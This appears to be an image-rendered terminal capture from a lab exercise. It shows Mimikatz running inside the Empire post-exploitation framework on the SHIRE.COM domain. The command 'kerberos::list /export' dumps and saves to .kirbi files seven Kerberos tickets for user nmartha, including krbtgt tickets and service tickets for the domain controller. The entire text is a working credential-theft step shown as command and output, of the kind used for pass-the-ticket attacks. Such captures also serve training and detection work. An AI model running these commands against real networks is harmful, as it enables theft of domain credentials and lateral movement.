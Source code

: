 ```
mimikatz(powershell) # standard::base64
isBase64InterceptInput  is false
isBase64InterceptOutput is false

mimikatz(powershell) # kerberos::list /export

[00000000] - 0x00000012 - aes256_hmac      
   Start/End/MaxRenew: 5/18/2019 7:03:14 PM ; 5/19/2019 4:23:33 AM ; 5/25/2019 6:23:33 PM
   Server Name       : krbtgt/SHIRE.COM @ SHIRE.COM
   Client Name       : nmartha @ SHIRE.COM
   Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ; 
   * Saved to file     : 0-60a10000-nmartha@krbtgt~SHIRE.COM-SHIRE.COM.kirbi

[00000001] - 0x00000012 - aes256_hmac      
   Start/End/MaxRenew: 5/18/2019 6:23:33 PM ; 5/19/2019 4:23:33 AM ; 5/25/2019 6:23:33 PM
   Server Name       : krbtgt/SHIRE.COM @ SHIRE.COM
   Client Name       : nmartha @ SHIRE.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ; 
   * Saved to file     : 1-40e10000-nmartha@krbtgt~SHIRE.COM-SHIRE.COM.kirbi

[00000002] - 0x00000012 - aes256_hmac      
   Start/End/MaxRenew: 5/18/2019 7:03:14 PM ; 5/19/2019 4:23:33 AM ; 5/25/2019 6:23:33 PM
   Server Name       : cifs/HFDC01.shire.com @ SHIRE.COM
   Client Name       : nmartha @ SHIRE.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 
   * Saved to file     : 2-40a50000-nmartha@cifs~HFDC01.shire.com-SHIRE.COM.kirbi

[00000003] - 0x00000012 - aes256_hmac      
   Start/End/MaxRenew: 5/18/2019 6:54:14 PM ; 5/19/2019 4:23:33 AM ; 5/25/2019 6:23:33 PM
   Server Name       : ldap/HFDC01.shire.com/shire.com @ SHIRE.COM
   Client Name       : nmartha @ SHIRE.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 
   * Saved to file     : 3-40a50000-nmartha@ldap~HFDC01.shire.com~shire.com-SHIRE.COM.kirbi

[00000004] - 0x00000012 - aes256_hmac      
   Start/End/MaxRenew: 5/18/2019 6:32:04 PM ; 5/19/2019 4:23:33 AM ; 5/25/2019 6:23:33 PM
   Server Name       : HOST/HFDC01 @ SHIRE.COM
   Client Name       : nmartha @ SHIRE.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 
   * Saved to file     : 4-40a50000-nmartha@HOST~HFDC01-SHIRE.COM.kirbi

[00000005] - 0x00000012 - aes256_hmac      
   Start/End/MaxRenew: 5/18/2019 6:23:48 PM ; 5/19/2019 4:23:33 AM ; 5/25/2019 6:23:33 PM
   Server Name       : cifs/IT001 @ SHIRE.COM
   Client Name       : nmartha @ SHIRE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
   * Saved to file     : 5-40a10000-nmartha@cifs~IT001-SHIRE.COM.kirbi

[00000006] - 0x00000012 - aes256_hmac      
   Start/End/MaxRenew: 5/18/2019 6:23:33 PM ; 5/19/2019 4:23:33 AM ; 5/25/2019 6:23:33 PM
   Server Name       : ldap/HFDC01.shire.com @ SHIRE.COM
   Client Name       : nmartha @ SHIRE.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ; 
   * Saved to file     : 6-40a50000-nmartha@ldap~HFDC01.shire.com-SHIRE.COM.kirbi

(Empire: powershell/credentials/mimikatz/extract_tickets) >
```